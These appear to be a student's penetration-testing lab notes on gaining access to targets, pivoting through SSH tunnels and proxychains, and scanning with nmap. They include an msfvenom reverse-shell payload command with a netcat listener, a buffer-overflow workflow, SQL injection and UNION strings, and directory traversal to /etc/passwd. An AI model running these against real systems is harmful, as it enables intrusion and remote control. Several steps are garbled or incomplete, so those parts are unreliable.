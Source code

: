## General Steps 1 to a Target ##

### STEP 1 ###

1. Gain initial access. 

        Use information gained from scanning, ping and what not to gain initial access to the system.

2. Find any other additional targets
        
        Post exploitation attacks , e.g. Situational Awareness, enumeration and escalation privilege. 

3. Pivot or go to the targets found in 2. 

## General Steps to a Target ##

Step 1. Create local tunnels to target point 

Step 2. Check ip addresses to the target points whether they are active or responsive 

Step 3. `cat /etc/hosts` or cat `/etc/passwd`see what's in there

Not sure about these here 

Move dynamic to An : ssh An@localhost –p 50511 –D 9050 -NT

Linoops proxychain `nmap –Pn 192.168.28.179`

RDP from An to Lh

Student@lin-ops ssh An@localhost –p 50522 –L 50533:192.168.28.179:3389 –NT

`Msf6 payload(windows/shell_reverse_tcp)>generate –b “\x00\x0a\x0d\x20” -f python`

Open Immunity Debugger to see if its broken

https:wireshark.eu/tools/buffer-overflow-pattern-generator/?

Pattern length of 5000 and copy the nre pattern with the code

Rund the code again and we should find a new EIP

NEW EIP will be the offset in wiremask

Student@lin-ops$ `msfvenom –p windows/shell_reverse_tcp lhost=10.50.40.109 lport=4444 –b “\x00” -f python`

Nc –lvp 4444

Proxychains ./whateverfile.py

Step 4. Perform nmap scans on targets to find attackers from linops

Step 5. Perfrom enumeration on the found target IP on port 80

Step 6. Change proxy settings on browser ![Alt Text](images/proxy_settings.png)

Step 7. Perform SQL injections http://ip.address/login.php?username=tom' OR 1='1 & passwd=tom' OR 1='1
        Or enter the information on the login page 

Step 8. Enumerate the scripts on the website you logged in to to find any other information for login. http://ip.address/scripts or anything on here/. Find users e.g. user_mahlon and passwords 

Step 9. Perform directory traversals things like /etc/passwd pages and /etc/hosts 

Step 10. Use any information to login to the sites, ssh'ing to the respective sites e.g. user_mahlon@i-_address use the password found

Step 12: ls, cd to /etc/hosts /etc/passwd and other folders while looking for other targets say you find an ip address 192.6.6.6 called shenanigans.. get the hostname say the hostname is shenanigans_hostname 

Step 13. Login to the target and go to bash, e.g. type bash on terminal then scan for the ip e.g. `user_mahlon@shenanigans_hostname:/$ for i in {1..254};do (ping -c 1 192.6.$i | grep "bytes from" &); done` this will show what addresses are open. 181

Step 14. From the linops machine ssh dynamically to found hosts use user_mahlon

Step 15. From here you can run proxychains and nmap to find targets e.g. `student@lin-ops:~$ proxychains sudo nmap -sS -Pn 192.6.6.NumFOndin14 -p 1-2,3,4,5`

Step 16. Check for enum scripts and netbios using `nmap –Pn – 192.192.6.6.NumFOndin14 -sV`  or `nmap –Pn – 192.6.6.NumFOndinin14 --script -enum`

Step 17. Go to the http page and try and perfrom sql injection union selection reference table notes TODO: ASK INSTRUCTOR FOR A REVIEW ON THIS. 

Step 18. Add kizao prd = numberi saba union select table_schema, column_name, table_name FROM information_schema.columns. pick.php?product=6 or 1=1

Step 19. Step 13

Step 20. Perform escalation of privilege -> TODO: Review notes for post escalation privilege

## How to check IP addresses in a local network and whether they are active and responsive ##

So, in summary, the below script pings each IP address in the range 192.168.28.1 to 192.168.28.254 once and then searches for lines in the ping output that contain "bytes from." It does this for all IP addresses concurrently by running the grep command in the background for each ping. This is often used to quickly check which IP addresses in a local network are active and responsive.

student@lin-ops:~$ `for i in {1..254} ;do (ping -c 1 192.168.28.$i | grep "bytes from" &) ;done`

## How to perform NMAP scan on the target from linops ##

student@lin-ops:~$ `sudo nmap -sS -Pn 10.50.27.209 -p 135-139,22,80,443,21,8080`

-sS: This option specifies to use TCP SYN scanning. In TCP SYN scanning, the tool sends SYN packets to the target ports to determine if they are open or closed. It's a common method for quickly identifying open ports.

-Pn: This option tells nmap not to perform host discovery. By default, nmap tries to determine if the host is up before scanning, but -Pn disables this and assumes the host is up.

When you run this command, nmap will send SYN packets to each of the specified ports on the target IP address 10.50.27.209 and determine whether they are open, closed, or filtered by a firewall. 

## How to perform enumeration on a target ##

student@lin-ops:~$ `nmap -Pn -sT 10.50.27.209 -p 80 --script http-enum.nse`

The purpose of this nmap command is to scan the target host 10.50.27.209 specifically for an HTTP service running on port 80 and to enumerate information about that service using the http-enum.nse script.

-Pn: This option tells nmap not to perform host discovery. It assumes that the host is up without checking. 

-sT: This option specifies to use TCP connect scanning (-sT). TCP connect scanning is a basic technique where nmap attempts to establish a full TCP connection with the target host on the specified port(s). It's a straightforward method for checking whether a port is open.
